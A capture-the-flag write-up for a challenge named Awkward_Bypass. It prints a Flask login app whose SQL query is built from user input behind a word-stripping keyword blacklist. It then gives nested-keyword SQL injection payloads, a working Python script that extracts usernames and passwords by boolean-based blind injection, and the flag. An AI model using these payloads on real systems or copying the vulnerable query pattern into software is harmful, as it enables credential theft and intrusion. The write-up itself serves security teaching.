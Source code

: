 # Awkward_Bypass
## Description
This blacklist is so awkward, it will make you wonder if you know how to spell...

## Files
Provided source code

## Code
### `app.py`
```python
import re
import sqlite3
from flask import Flask, render_template, url_for, request, redirect, make_response

app = Flask(__name__)

blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASCADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAMP", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLUSIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE", "IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT", "MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURNING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNION", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"] 

def checkCreds(username, password):
	con = sqlite3.connect('database.db')
	cur = con.cursor()
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		username = regex.sub("", username)
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		password = regex.sub("", password)
	print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")		
	try:
		content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()
	except:
		return False
	cur.close()
	con.close()
	if content == []:
		return False
	else:
		return True

@app.route('/')
def index():
	return render_template("index.html")

@app.route('/user', methods=['POST'])
def user():
	if request.method == 'POST': 
		username = request.values['username']
		password = request.values['password']
		if checkCreds(username, password) == True:
			return render_template("user.html")
		else:
			return "Error"
	else:
		return render_template("user.html")
```

## Methodology
It'a a simple webpage that asks for credentials.

![web](./web.PNG)

Our creds are passed to the `checkCreds` method and on success displays `user.html` and on error `'Error'`. The creds are checked against `sqlite` database but before that the program `!!!deletes!!!` forbidden words from the input. The the 'clean' input is passed into the query. We can bypass the filtering logic by dividing our input words like this.

SESELECTLECT : is filtered into SELECT

FRFROMOM     : is filtered into FROM

and so on... we can construct a valid query.
To successfuly launch an SQLi attack we escape username in the query with a singlequote `'`. Sample query would look like this. We would want to get names of all the tables from the database.

`' OorR 1==1 UNUNIOONNIOONN SESELECTLECT name,NNullULL FRFROMOM sqlite_maasster;-- -`

![pwn1](./pwn1.PNG)

result (user.html)

![pwn2](./pwn2.PNG)

This approach works but we won't get data from the database. We only get `user.html` or error. This hints to be a `boolean-based sql injection`.

## Exploit
We have to exfiltrate db data byte by byte using `substr` operation in `sqlite`. This way we can iterate byte by byte over the strings in the table and get what we want. We will first check the first letter of the `username` column and iterate over the alphabet (or `string.printable`) to get a match. If it is a match we get `user.html` and if not we get `Error!`. We use this approach with every letter of the username and password column.

## Exploit code
```python
import requests
import string

db_data = ''
for pos in range(1, 100):
  for char in string.printable:
    # username
    p = "\\' OORR 1=1 AANDND (SESELECTLECT hex(substr(username," + str(pos) + ",1)) FRFROMOM users) = hex('" + str(char) + "')-- -"

    # password
    #p = "\\' OORR 1=1 AANDND (SESELECTLECT hex(substr(paassswoorrd," + str(pos) + ",1)) FRFROMOM users) = hex('" + str(char) + "')-- -"
    
    h = {'Content-Type': 'application/x-www-form-urlencoded'}
    d = {'username': p, 'password': 'pwn'}
    r = requests.post('https://awkward-bypass.chal.imaginaryctf.org/user', headers=h, data=d)
    
    # successful call
    if 'Ummmmmmm, did you expect a flag to be here?' in r.content.decode():
      db_data += str(char)
      print(db_data)
      break

print('Final: ' + db_data)
```

## Loot
Username

![exf1](./exf1.PNG)

Password

![exf2](./exf2.PNG)

## Flag
**ictf{n13_fil73r_byp@ss_7130676d}**